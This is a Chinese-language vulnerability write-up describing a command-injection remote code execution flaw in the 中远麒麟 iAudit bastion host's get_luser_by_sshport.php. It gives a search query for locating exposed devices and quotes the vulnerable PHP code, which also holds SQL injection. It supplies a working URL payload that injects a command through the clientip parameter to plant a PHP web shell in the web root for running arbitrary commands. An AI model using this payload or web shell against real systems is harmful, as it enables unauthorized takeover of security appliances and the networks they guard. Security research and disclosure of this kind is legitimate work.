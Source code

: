 # 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>中远麒麟 iAudit堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>cert.subject="Baolei"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/image-20210714220315959.png)



出现漏洞的文件为 get_luser_by_sshport.php



```php
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```



其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 `/opt/freesvr/web/htdocs/freesvr/audit/`

发送Payload

```plain
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```

![img](/assets/PeiQi-Wiki/img/image-20210714220838976.png)



再访问写入的文件执行命令

![img](/assets/PeiQi-Wiki/img/image-20210714221135635.png)